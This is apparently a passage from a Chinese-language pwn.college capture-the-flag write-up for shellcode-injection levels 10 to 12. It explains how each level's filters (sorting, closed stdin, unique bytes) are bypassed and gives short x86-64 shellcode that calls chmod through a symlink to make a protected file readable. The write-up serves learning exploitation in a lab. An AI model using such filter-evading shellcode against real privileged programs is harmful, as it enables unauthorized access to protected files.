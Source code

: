 ```asm
0x000000001b4a5016 | 5e                                            | pop rsi
0x000000001b4a5017 | 6a 5a                                         | push 0x5a
0x000000001b4a5019 | 58                                            | pop rax
0x000000001b4a501a | 0f 05                                         | syscall 
```

## level10

level10这一关会对输出的数据，按照`uint_64`为一个单位（8个字节）进行冒泡排序。我们只需要保证第8个字节的数值大于第16个字节的数据就行。 

看了一下之前level8中的代码就能用。
```asm
      Address      |                      Bytes                    |          Instructions
------------------------------------------------------------------------------------------
0x0000000030275000 | 6a 66                                         | push 0x66
0x0000000030275002 | 48 89 e7                                      | mov rdi, rsp
0x0000000030275005 | 6a 04                                         | push 4
0x0000000030275007 | 5e                                            | pop rsi # 这个数值是大于05的
0x0000000030275008 | 6a 5a                                         | push 0x5a
0x000000003027500a | 58                                            | pop rax
0x000000003027500b | 0f 05                                         | syscall # 这个只有5个字节，肯定是小于上面那个数的

Executing shellcode!


pwn.college{}

```

## level11

跟上面那个一样，也是冒泡排序。但是在执行shellcode之前，会关闭`stdin`。它给的提示是`which means that it will be harder to pass in a stage-2 shellcode.` 应该可以通过输入shellcode，然后再读取输入？应该可以，它shellcode的初始地址是一定的，你只需要往后面写就行应该，算好偏移量的前提。

但是我们是修改文件权限的，跟标准输出没有关系，所以我们直接复用之前的代码就行。

## level12

这一关跟之前的区别是，输入的字节数必须要互不相同。方法就是要找一些等效指令，对应的二进制不要相同。 这里我把符号链接的名字设置为了`0x5a`，这样跟`chmod`的系统调用号一样，我可以通过栈顶指针将`0x5a`赋值给` rax`。虽然不知道这种情况下，rax寄存器那些高位的数值是否为0。但这样是可行的。

```asm
      Address      |                      Bytes                    |          Instructions
------------------------------------------------------------------------------------------
0x0000000015b1f000 | 6a 5a                                         | push 0x5a
0x0000000015b1f002 | 54                                            | push rsp
0x0000000015b1f003 | 5f                                            | pop rdi
0x0000000015b1f004 | 40 b6 04                                      | mov sil, 4
0x0000000015b1f007 | 8a 07                                         | mov al, byte ptr [rdi]
0x0000000015b1f009 | 0f 05                                         | syscall 
```

